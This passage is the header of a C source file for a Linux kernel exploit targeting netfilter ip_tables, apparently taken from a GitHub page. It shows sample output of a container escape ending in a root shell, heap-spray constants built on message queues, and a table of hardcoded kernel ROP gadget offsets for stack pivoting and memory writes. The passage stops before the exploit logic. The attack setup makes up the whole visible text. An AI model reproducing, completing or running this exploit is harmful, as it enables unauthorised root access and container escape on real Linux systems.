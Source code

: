 ```c
 * [+] STAGE 5: Post-exploitation
 * [*] Escaping container...
 * [*] Cleaning up...
 * [*] Popping root shell...
 * / # id
 * uid=0(root) gid=0(root)
 */

// clang-format off
#define _GNU_SOURCE
#include <err.h>
#include <errno.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <net/if.h>
#include <netinet/in.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <linux/netfilter_ipv4/ip_tables.h>
// clang-format on
#define PAGE_SIZE 0x1000
#define PRIMARY_SIZE 0x1000
#define SECONDARY_SIZE 0x400

#define NUM_SOCKETS 4
#define NUM_SKBUFFS 128
#define NUM_PIPEFDS 256
#define NUM_MSQIDS 4096

#define HOLE_STEP 1024

#define MTYPE_PRIMARY 0x41
#define MTYPE_SECONDARY 0x42
#define MTYPE_FAKE 0x1337

#define MSG_TAG 0xAAAAAAAA

// clang-format off
#define PUSH_RSI_JMP_QWORD_PTR_RSI_39 0x72e1ac                      // 0xffffffff8172e1ac: push rsi; jmp qword ptr [rsi + 0x39];
#define POP_RSP_RET 0x163ea0                                        // 0xffffffff81163ea0: pop rsp; ret; 
#define ADD_RSP_D0_RET 0x6f8c9                                      // 0xffffffff8106f8c9: add rsp, 0xd0; ret; 

#define ENTER_0_0_POP_RBX_POP_R12_POP_RBP_RET 0xea95d               // 0xffffffff810ea95d : enter 0, 0 ; pop rbx ; pop r12 ; pop rbp ; ret              only ROPgadget can find
#define MOV_QWORD_PTR_R12_RBX_POP_RBX_POP_R12_POP_RBP_RET 0x4cebe7  // 0xffffffff814cebe7: mov qword ptr [r12], rbx; pop rbx; pop r12; pop r13; pop rbp; ret;
#define PUSH_QWORD_PTR_RBP_A_POP_RBP_RET 0x6ed6ef                   // 0xffffffff816ed6ef: push qword ptr [rbp + 0xa]; pop rbp; ret; 
#define MOV_RSP_RBP_POP_RBP_RET 0x8c5bc                             // 0xffffffff8108c5bc: mov rsp, rbp; pop rbp; ret;

```